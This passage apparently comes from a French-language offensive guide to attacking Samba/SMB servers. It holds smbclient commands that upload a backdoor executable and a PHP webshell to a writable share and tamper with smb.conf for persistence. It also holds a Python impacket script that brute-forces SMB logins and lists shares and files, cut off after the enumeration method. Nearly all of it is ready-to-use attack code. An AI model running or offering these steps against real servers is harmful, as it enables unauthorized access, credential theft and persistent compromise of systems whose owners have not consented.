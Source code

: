 ### Persistance via partages
```bash
# Upload de backdoors
smbclient //<target>/writable_share -U admin
put backdoor.exe malware.exe
put webshell.php shell.php

# Modification de fichiers de configuration
get smb.conf
# Modifier localement puis re-upload
put smb.conf
```

---

## Phase 10: Outils et scripts automatisés

### Script Python pour exploitation complète
```python
#!/usr/bin/env python3
import subprocess
import sys
import os
from impacket.smbconnection import SMBConnection
from impacket import smb

class SambaExploiter:
    def __init__(self, target):
        self.target = target
        self.valid_creds = []
        
    def brute_force_smb(self, userlist, passlist):
        for username in userlist:
            for password in passlist:
                try:
                    conn = SMBConnection(self.target, self.target)
                    conn.login(username, password)
                    print(f"[SUCCESS] {username}:{password}")
                    self.valid_creds.append((username, password))
                    conn.close()
                except:
                    pass
    
    def enumerate_shares(self, username, password):
        try:
            conn = SMBConnection(self.target, self.target)
            conn.login(username, password)
            
            shares = conn.listShares()
            for share in shares:
                share_name = share['shi1_netname'][:-1]
                print(f"Share: {share_name}")
                
                try:
                    files = conn.listPath(share_name, '/')
                    for file in files:
                        print(f"  File: {file.get_longname()}")
                except:
                    pass
                    
            conn.close()
        except Exception as e:
            print(f"Error: {e}")
```